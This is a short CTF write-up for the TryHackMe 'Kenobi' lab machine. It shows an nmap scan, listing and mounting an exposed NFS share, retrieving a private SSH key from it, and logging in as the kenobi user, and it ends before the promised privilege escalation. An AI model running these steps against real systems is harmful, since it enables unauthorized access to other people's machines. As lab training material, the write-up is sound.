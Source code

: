 # TryHackMe - Kenobi Write-Up

## *1. Overview*
- *Target Machine:* Kenobi (TryHackMe)
- *Objective:* Gain root access and retrieve the flag.
- *Techniques Used:* Enumeration, NFS Exploitation, Privilege Escalation.

---

## *2. Enumeration*
### *2.1 - Nmap Scan*
First, I ran a full port scan using nmap:  


nmap -sC -sV -p- -oN scan.txt <Target_IP>


Findings :





![Image](https://github.com/user-attachments/assets/175fc8e7-85e4-4ebb-bc50-fdcf8717a52b)

## 3. Exploitation

### 3.1 - Exploiting NFS

bash


showmount -e <Target_IP>



•	Found /var directory as a shared NFS mount.


•	Mounted the share on my local

bash



 sudo mount -o nolock <Target_IP>:/var /mnt


 •	Discovered a private SSH key in /mnt/.ssh/id_rsa.

 ### 3.2 - Gaining initial access

 bash


 chmod 600 id_rsa

 
ssh -i id_rsa kenobi@<Target_IP>


•	Logged in as kenobi user.














